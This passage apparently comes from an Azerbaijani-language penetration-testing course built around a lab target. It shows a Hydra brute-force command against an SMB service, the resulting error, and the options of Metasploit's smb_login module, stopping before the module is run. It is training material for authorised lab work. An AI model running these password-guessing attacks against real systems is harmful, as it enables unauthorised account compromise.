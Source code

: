 Lakin, serverin etibarsız cavab göndərdiyini təsvir edən aşağıdakı xətanı da ala bilərik.

### Hydra - Xəta

```bash
nijatmansimov@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

Bunun səbəbi, çox güman ki, SMBv3 cavablarını idarə edə bilməyən köhnəlmiş bir THC-Hydra versiyamızın olmasıdır. Bu problemi aşmaq üçün, **hydra**-nı əl ilə yeniləyə və yenidən tərtib edə və ya başqa bir çox güclü alət olan **Metasploit framework**-dən istifadə edə bilərik.

### Metasploit Framework

```bash
nijatmansimov@htb[/htb]$ msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
```
